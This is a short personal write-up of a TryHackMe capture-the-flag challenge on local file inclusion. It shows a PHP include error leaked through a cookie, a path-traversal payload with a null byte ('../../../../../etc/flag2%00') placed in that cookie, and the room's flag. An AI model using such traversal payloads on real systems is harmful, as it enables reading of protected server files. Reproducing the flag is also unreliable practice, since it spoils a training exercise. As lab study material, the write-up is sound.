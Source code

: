```yaml
---
title: LFI CTF 2
weight: 2
---
```


[Link to the exercise](https://tryhackme.com/room/fileinc)

## Goal

Similarly to [[cybersecurity/write-ups/thm/lfi-ctf-1|LFI CTF #1]], the goal is to capture the flag at `/etc/flag2` using [[cybersecurity/knowledge/pentesting/LFI]].

## Steps

### Recon

The PHP application forced me to refresh itself at the very first contact. After refreshing the page, the cookie named `THM` was set with `Guest` as the value.

By chaning `Guest` to `Administrator`, I've been able to see the file inclusion error:

```
Warning: include(includes/Administrator.php) [function. include]: failed to open stream: No such file or directory in /var/www/html/chall2.php on line 37
Warning: include() [function. include]: Failed opening 'includes/Administrator. php' for inclusion (include_path='.:/usr/lib/php5.2/lib/php') in /var/www
/html/chall2.php on line 37
```

From the error it's kinda obvious that the username set in `THM` cookie is also an included file name.

To validate the idea, I've changed the cookie value to `Dupa` and saw the same error, but with `Dupa.php` file missing (btw, nice privileges management).

### Exploitation

I've changed the cookie value once more to `../../../../../etc/flag2%00` (using the [[cybersecurity/knowledge/pentesting/null-byte|null byte]] to omit `php` extension in `include` fn). After refreshing the page flag was mine.

![[assets/Screenshot 2023-01-04 at 17.01.28.png]]

## Flag

`c00k13_i5_yuMmy1`
